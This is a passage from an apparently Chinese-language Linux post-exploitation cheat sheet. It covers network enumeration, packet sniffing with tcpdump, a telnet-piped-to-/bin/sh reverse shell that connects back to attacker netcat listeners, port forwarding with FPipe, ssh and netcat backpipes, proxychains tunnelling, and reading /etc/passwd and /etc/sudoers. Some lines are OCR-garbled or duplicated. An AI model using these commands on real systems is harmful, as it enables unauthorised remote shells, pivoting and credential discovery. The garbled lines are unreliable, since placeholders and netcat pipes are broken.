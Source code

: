 **IP和/或MAC地址**
```
arp -e
route
/sbin/route -nee
```

**数据包嗅探是否可能？可以看到什么？**
```
tcpdump tcp dst [ip] [端口]和tcp dst [ip] [端口]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```

**我们有shell吗？**
```
nc -lvp 4444 # Attacker. Input (Commands)
nc -lvp 4445 # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445 # On the targets sys
```

**是否可以进行端口转发？重定向流量并与之交互**
```
FPipe.exe -l [本地端口] -r [远程端口] -s [本地端口] [本地IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
```

```
ssh-[L / R] [本地端口]：[远程IP]：[远程端口] [本地用户] @ [本地IP]
ssh -L 8080:127.0.0.1:80 root\@192.168.1.7 # Local Port
ssh -R 8080:127.0.0.1:80 root\@192.168.1.7 # Remote Port
```

```
mknod backpipe p; nc -l -p [远程端口] backpipe
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost
```

可以使用隧道吗？在本地远程发送命令
```
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```


## 2.4、机密信息和用户
**你是谁？谁登录？谁已经登录？那里还有谁？谁能做什么？**
```
id 
who 
w
last
cat /etc/passwd \| cut -d: -f1 \ # List of users
grep -v -E "^#" /etc/passwd |
cat /etc/sudoers
sudo -l
```
